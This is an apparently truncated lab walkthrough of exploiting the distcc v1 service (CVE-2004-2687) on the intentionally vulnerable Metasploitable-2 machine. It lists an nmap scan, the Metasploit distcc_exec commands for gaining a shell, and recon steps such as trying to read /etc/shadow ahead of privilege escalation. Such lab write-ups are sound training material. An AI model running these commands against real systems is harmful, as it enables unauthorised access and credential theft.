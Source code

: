 **Aim:** Getting root access on the machine.

DISTCC V1 is known vulnerable application running on Metasploitable-2 but it is interesting because we have to escalate normal user to **root** using “Privilege Escalation”

#### **Searching about distcc on online**

distcc is a tool for speeding up the compilation of source code by using distributed computing over a computer network. With the right configuration, distcc can dramatically reduce a project’s compilation time.

distcc running on port 3632

#### **Running nmap against port — 3632**

**nmap -sV -p 3632 192.168.10.10**

![](https://cdn-images-1.medium.com/max/800/1*JH6v3xVGIPEddndRbu0MTQ.png)

#### Searching for the public exploit for distccd v1

Vulnerable to: [CVE-2004–2687](http://cvedetails.com/cve/cve-2004-2687)

Exploit publicly available. [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc\_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)

#### Exploiting using Metasploit

**msfconsole**

![](https://cdn-images-1.medium.com/max/800/1*7tL7qP4ZT-SYwmXY9BSOZw.png)
![](https://cdn-images-1.medium.com/max/800/1*y7-Q94SF0pbSax2mYU4v0g.png)

metasploit commands.

**search distcc**

**use exploit/unix/distcc\_exec**

**show options**

**set RHOST 192.168.10.10**

**exploit**

![](https://cdn-images-1.medium.com/max/800/1*POWHzHbLlh76h-X9PVX-bA.png)

Currently, **uid=1** and we cannot **cat /etc/shadow** , This indicated that we don't have root privileges yet.

We need to leverage another vulnerability available in the installed components

for doing that we need to apply recon process to know more about the system.

**Seeing all the shells available to us.**

**cat /etc/shells**

![](https://cdn-images-1.medium.com/max/800/1*g-HUODSc8OhKrmgKuNjkqA.png)
